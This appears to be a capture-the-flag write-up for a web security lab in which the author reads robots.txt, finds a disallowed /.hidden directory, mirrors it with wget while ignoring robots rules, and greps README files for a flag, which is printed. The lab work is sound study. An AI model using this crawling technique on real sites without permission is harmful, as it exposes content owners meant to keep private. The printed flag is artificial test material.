 
Visting the robots.txt route give us the follwing output

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

If we visit the /.hidden route we will get a recursive directories containing a file named README

The thing here is to loop through all directories and print all **README** files till we get the flag.

To do that we need to download the whole directory offline using **wget**

```
*[main][/goinfre/mashad/projects/darkly/dd]$ wget -r -np -R "index.html*" -e "robots=off" http://10.12.177.91/.hidden/
*[main][/goinfre/mashad/projects/darkly/dd]$ ls -a 
.       ..      .hidden
*[main][/goinfre/mashad/projects/darkly/dd]$ 
```

Now we will use find command to find all README files and print it's content, it my take a while

```
*[main][/goinfre/mashad/projects/darkly/dd]$ find . -name README  -exec cat {} \;  |grep flag
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
*[main][/goinfre/mashad/projects/darkly/dd]$ 
```
